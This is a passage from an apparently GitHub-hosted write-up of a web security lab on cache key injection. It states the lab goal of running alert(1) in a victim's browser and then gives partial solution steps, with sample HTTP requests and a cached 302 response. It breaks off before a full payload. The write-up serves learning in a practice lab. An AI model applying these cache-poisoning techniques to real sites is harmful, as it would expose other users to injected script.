 ## Cache key injection
![Awesome Badges](https://img.shields.io/badge/level-expert-blueviolet)

This lab contains multiple independent vulnerabilities, including cache key injection. 

A user regularly visits this site's home page using Chrome.

To solve the lab, combine the vulnerabilities to execute `alert(1)` in the victim's browser. 

Note that you will need to make use of the `Pragma: x-get-cache-key` header in order to solve this lab.

> [!NOTE]
> Remember that the injected origin header must be lowercase, to comply with the HTTP/2 specification.

### Solution

Navigate to Login page.
Using Param Miner returns no additional headers.

Verify we can use `Origin` as cache buster.
```
Origin: cb.net
```

#### Append arbitrary unkeyed content to the `lang` parameter

Notice the request path `/login/?lang=en`.
Let's try with 
```
/login?lang=en
``` 

Response:
```http
HTTP/2 302 Found
Location: /login/?lang=en
Vary: origin
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 30
X-Cache: hit
Content-Length: 0
```

Notice it got cached and also notice the `Location` header.


Test if `utm_content` is keyed.
```http
GET /login?lang=en&utm_content=test HTTP/2
```

or
